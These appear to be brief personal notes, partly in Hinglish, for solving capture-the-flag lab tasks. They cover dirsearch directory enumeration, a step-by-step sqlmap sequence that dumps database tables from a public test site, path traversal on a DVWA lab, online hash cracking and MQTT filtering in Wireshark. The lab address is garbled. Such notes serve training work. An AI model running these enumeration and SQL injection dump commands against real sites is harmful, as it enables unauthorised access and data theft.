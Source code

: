 URl mai dirsearch chlao and explore kro usme kisi ek directory mai flag diya hoga
command: dirsearch -u URL


Directory traversal after dirsearch or gobuster or dirb or dirbuster
dirsearch -u https://example.com
or 
dirsearch -e php,html,js,txt -u https://example.com -> for extension search
or
dirsearch -e php,html,js,txt -u https://example.com -w /usr/share/wordlists/dirb/common.txt -> for wordlist search


----------------------------------------------------------------------------------------------------------
SQL injection find the value in the Flag column in one of the DB tables and enter it as the answer.


https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/

use SQLMap and a vulnerable url on the website to dump user info.
Get all databases using sqlmap
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 --dbs
Get tables from a selected database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name --tables 
Get all columns from a selected table_name in the database_name
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name --columns
Dump the data from the columns 
sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D database_name -T table_name -C column_name --dump


---------------------------------------------------------------------------------------------------------------------------------
DVWA (http:/172.20 0.16: B0B0/DVWA). The file is located in the "C:\wamp64\www\DVWA\hackable\uploads\"


Isme jo bhi url diya hoga usme question mai diya huwa path dalna hai and flag mil jayega
E.g - http:/172.20 0.16: B0B0/DVWA/hackable\uploads\


site ulnerable to directory traversal and local file inclusion
Navigate to the location of the file and open it
copy the hash value and use either crackstation from the internet to crack it or https://hashes.com/en/decrypt/hash

---------------------------------------------------------------------------------------------------------------------------
IOT network packet with IOT Publish Message, and enter the flag.


Open the .pcap file with wireshark
Type “MQTT” in the filter bar and press enter
Look for MQTT publish messages in the packet list. 
MQTT publish messages typically have a PUBLISH message type.
Get the message length


---------------------------------------------------------------------------------------------------------------------------
Wifi password cracking
